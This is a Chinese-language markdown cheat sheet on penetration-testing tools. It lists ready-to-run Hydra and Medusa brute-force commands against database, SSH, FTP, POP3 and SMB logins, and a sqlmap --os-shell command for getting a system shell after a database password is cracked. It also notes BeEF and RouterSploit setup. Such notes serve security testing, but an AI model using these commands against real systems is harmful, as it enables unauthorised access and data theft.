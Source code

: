 # TOOL using
## `Fiddler`是最强大最好用的Web调试工具之一
- 流光 官方版v5.0

## SQLMAP

## `Fiddler`是最强大最好用的Web调试工具之一

## 暴力破解
搜集用户名是重点。搜集的方式有：1通过邮箱搜集；2通过错误提示搜集。
### Hydra暴力破解
首先用Nmap扫描到某个系统开放了1433端口。
- 破解MySQL密码
    + hydra.exe -l sa -P c:\pass.txt 192.168.1.110 mssql
    + hydra.exe -L c:\user.txt -P c:\pass.txt 192.168.1.110 mysql
    + 使用-L指定用户名文件，-P指定密码文件
- 破解FTP密码
    + hydra.exe -l admin -P c:\pass.txt -t 5 192.168.1.110 ftp
    + 使用-l指定用户名，-t指定线程
- 破解ssh
    + hydra.exe -L users.txt -P password.txt -e n -t 5 -vV 192.168.1.110 ssh
    + 使用“-e n”对空密码探测
- 破解 pop3
    + hydra.exe -l root -P pass.txt my.pop3.mail pop3
- 攻击者一旦得到数据库密码，一般会做两件事情，一是“拖库”，二是“提权”。
    + 上面破解密码为“pwd@123”之后，可以利用sqlmap进一步来反弹一个与系统交互的Shell用来提权。命令为：
    + sqlmap.py -d "mssql://sa:pwd@123@192.168.1.110:1433/master" --os-shell

### Medusa
- 破解mysql:`medusa -h 192.168.195.129 -u root -P /pass.txt -M mysql`
- 破解MSSQL:`medusa -h 192.168.1.110 -u sa -P /pass.txt -t 5 -f -M mssql`
    + 使用“-t”参数指定线程，“-f”指定在任何主机上找到第1个账号/密码后，停止审计。
- 破解SSH:`medusa -M ssh -H host.txt -U user.txt -p password` 使用“-U”参数读取用户名字典文件users.txt
- 日志文件:`medusa -h 192.168.1.110 -u sa -P /pass.txt -t 5 -f -e ns -M mssql -O /ap.txt`
- 破解smbnt
    + medusa -h www.secbug.org -u administrator -P /pass.txt -e ns -M smbnt
    + 使用“-h”参数对主机www.secbug.org破解smbnt服务，并使用“-e ns”参数，尝试空密码及账号为密码。
    + 使用“-C”参数破解smbnt
    + medusa -M smbnt -C combo.txt
    + combo文件的格式如下：
    + 192.168.0.20:testuser:pass
    + 192.168.0.40:user1:foopass

## RouterSploit
专门针对嵌入式设备的漏洞利用工具
- [RouterSploit](`https://github.com/threat9/routersploit`)

## XSS
### BeEF（The Browser Exploitation Framework）：针对浏览器的渗透测试工具
- http://beefproject.com
- beef xss framework
- 在beef配置文件(/usr/share/beef-xss/config.yaml)中修改密码（默认账户密码:beef/beef）
- 同Metasploit关联，使用msf模块
    + metasploit:
            enable: false改为true
    + `/usr/share/beef-xss/extensions/demos/config.yaml`
        * enable: true改为false
    + `/usr/share/beef-xss/extensions/metasploit/config.yaml`
        * ssl: true
        * ssl_version: 'TLSv1'

